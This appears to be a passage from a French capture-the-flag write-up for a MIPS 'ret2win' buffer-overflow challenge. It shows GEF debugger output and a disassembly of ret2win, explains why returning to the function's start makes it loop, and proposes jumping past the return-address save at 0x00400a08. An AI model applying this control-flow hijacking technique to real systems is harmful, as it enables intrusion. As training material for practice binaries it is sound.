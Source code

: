     GEF> b *pwnme+260

AU moment du retour de pwnme :

     0x4009ec <pwnme+248>      lw     ra, 60(sp)
     0x4009f0 <pwnme+252>      lw     s8, 56(sp)
     0x4009f4 <pwnme+256>      addiu  sp, sp, 64
     0x4009f8 <pwnme+260>      jr     ra
    ↳   0x400a00 <ret2win+0>      addiu  sp, sp, -32
        0x400a04 <ret2win+4>      sw     ra, 28(sp)
        0x400a08 <ret2win+8>      sw     s8, 24(sp)

Notre regitre ra est positionné à l'adresse de ret2win

    gef➤  i r ra
    ra: 0x400a00

Mais l'entrée dans la fonction ne se faisant pas par l'instruction jal.
ra n'est pas mis à jour et au ret de ret2win on reboucle.

    gef➤  disas ret2win
    Dump of assembler code for function ret2win:
    0x00400a00 <+0>:	addiu	sp,sp,-32
    0x00400a04 <+4>:	sw	ra,28(sp)
    0x00400a08 <+8>:	sw	s8,24(sp)
    0x00400a0c <+12>:	move	s8,sp
    0x00400a10 <+16>:	lui	gp,0x42
    0x00400a14 <+20>:	addiu	gp,gp,-28656
    0x00400a18 <+24>:	sw	gp,16(sp)
    0x00400a1c <+28>:	lui	v0,0x40
    0x00400a20 <+32>:	addiu	a0,v0,3452
    0x00400a24 <+36>:	lw	v0,-32680(gp)
    0x00400a28 <+40>:	move	t9,v0
    0x00400a2c <+44>:	jalr	t9
    0x00400a30 <+48>:	nop
    0x00400a34 <+52>:	lw	gp,16(s8)
    0x00400a38 <+56>:	lui	v0,0x40
    0x00400a3c <+60>:	addiu	a0,v0,3484
    0x00400a40 <+64>:	lw	v0,-32684(gp)
    0x00400a44 <+68>:	move	t9,v0
    0x00400a48 <+72>:	jalr	t9
    0x00400a4c <+76>:	nop
    0x00400a50 <+80>:	lw	gp,16(s8)
    0x00400a54 <+84>:	nop
    0x00400a58 <+88>:	move	sp,s8
    0x00400a5c <+92>:	lw	ra,28(sp)
    0x00400a60 <+96>:	lw	s8,24(sp)
    0x00400a64 <+100>:	addiu	sp,sp,32
    0x00400a68 <+104>:	jr	ra
    0x00400a6c <+108>:	nop
    End of assembler dump.

Si on saute plutôt sur j'adresse `0x00400a08`

    0x00400a00 <+0>:	addiu	sp,sp,-32
    0x00400a04 <+4>:	sw	ra,28(sp)
 => 0x00400a08 <+8>:	sw	s8,24(sp)
